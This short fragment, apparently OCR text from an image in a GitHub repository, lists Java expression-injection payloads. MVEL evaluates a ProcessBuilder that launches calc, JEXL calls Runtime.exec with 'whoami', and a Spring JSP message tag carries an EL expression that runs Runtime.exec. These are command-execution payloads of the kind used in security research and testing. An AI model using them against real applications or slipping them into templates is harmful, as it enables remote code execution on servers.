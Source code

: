 - MVEL
```java
String expression = "new java.lang.ProcessBuilder(/"calc/").start();";  
MVEL.eval(expression, vars);
```
- JEXL
```java
String Exp = "233.class.forName('java.lang.Runtime').getRuntime().exec('whoami')";
JexlEngine engine = new JexlBuilder().create();
JexlExpression Expression = engine.createExpression(Exp);
JexlContext Context = new MapContext();
Expression.evaluate(Context);
```
- JSTL_EL
```jsp
<spring:message text="${\"\".getClass().forName(\"java.lang.Runtime\").getMethod(\"getRuntime\",null).invoke(null,null).exec(\"calc\",null).toString()}">
</spring:message>
```
